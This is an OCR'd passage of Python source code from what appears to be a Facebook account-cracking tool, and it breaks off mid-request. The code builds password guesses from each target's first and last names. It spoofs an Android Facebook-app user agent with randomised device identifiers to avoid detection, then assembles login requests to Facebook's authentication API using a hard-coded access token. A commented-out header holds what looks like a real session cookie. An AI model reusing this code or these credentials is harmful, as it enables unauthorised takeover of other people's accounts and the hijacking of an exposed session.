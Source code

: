                 for pw in passlist:
                        pas = pw.replace('first',fn.lower()).replace('First',fn).replace('last',ln.lower()).replace('Last',ln).replace('Name',names).replace('name',names.lower())
                        accessToken = '350685531728|62f8ce9f74b12f84c123cc23437a4a32'
                        fbav = f'{random.randint(111,999)}.0.0.{random.randint(11,99)}.{random.randint(111,999)}'
                        fbbv = str(random.randint(111111111,999999999))
                        android_version = device['android_version']
                        model = device['model']
                        build = device['build']
                        fblc = device['fblc']
                        fbcr = sim_id
                        fbmf = device['fbmf']
                        fbbd = device['fbbd']
                        fbdv = device['fbdv']
                        fbsv = device['fbsv']
                        fbca = device['fbca']
                        fbdm = device['fbdm']
                        fbfw = '1'
                        fbrv = '0'
                        fban = 'FB4A'
                        fbpn = 'com.facebook.katana'
                        ua = 'Davik/2.1.0 (Linux; U; Android '+android_version+'.0.1; '+model+' Build/'+build+') [FBAN/'+fban+';FBAV/'+fbav+';FBBV/'+fbbv+';FBDM/{density=3.0,width=1440,height=8797};FBLC/'+fblc+';FBRV/'+str(random.randint(000000000,999999999))+';FBCR/'+fbcr+';FBMF/'+fbmf+';FBBD/'+fbbd+';FBPN/'+fbpn+';FBDV/'+fbdv+';FBSV/'+fbsv+';FBOP/19;FBCA/'+fbca+';]'
                        random_seed = random.Random()
                        adid = str(''.join(random_seed.choices(string.hexdigits, k=16)))
                        device_id = str(uuid.uuid4())
                        secure = str(uuid.uuid4())
                        family = str(uuid.uuid4())
                        accessToken = '350685531728|62f8ce9f74b12f84c123cc23437a4a32'
                        xd =str(''.join(random_seed.choices(string.digits, k=20)))
                        sim_serials = f'["{xd}"]'
                        li = ['28','29','210']
                        li2 = random.choice(li)
                        j1 = ''.join(random.choice(digits) for _ in range(2))
                        jazoest = li2+j1
                        data = {
                                "adid": adid,
"format": "json",
"device_id": str(uuid.uuid4()),
"email": ids,
"password": pas,
"generate_analytics_claims": "1",
"credentials_type": "password",
"source": "login",
"error_detail_type": "button_with_disabled",
"enroll_misauth": "false",
"generate_session_cookies": "1",
"generate_machine_id": "1",
"fb_api_req_friendly_name": "authenticate",}
                        headers = {
    'authority': 'web.facebook.com',
    'accept': '*/*',
    'accept-language': 'en-US,en;q=0.9,ur-PK;q=0.8,ur;q=0.7',
    'content-type': 'application/x-www-form-urlencoded',
    # 'cookie': 'sb=lkCBZHSYKeCS3UJz0hEmLSOx; c_user=100022483292193; dpr=2.1988937854766846; datr=jop9ZTBLpgxvDHQozCBGHYWR; xs=14%3AdmhvOusBEUfCuA%3A2%3A1702692401%3A-1%3A5898%3A%3AAcVE3gfMkdy8hhvGTPPX9XgJTDHz4I6KkFiVzBF79A; fr=1uarT3CpIsufMyVbb.AWU6bH97zSnoejxv1u0L3nd_vNw.BlgWOl.X5.AAA.0.0.Blgk7j.AWUSdJMdvTM; wd=891x1631',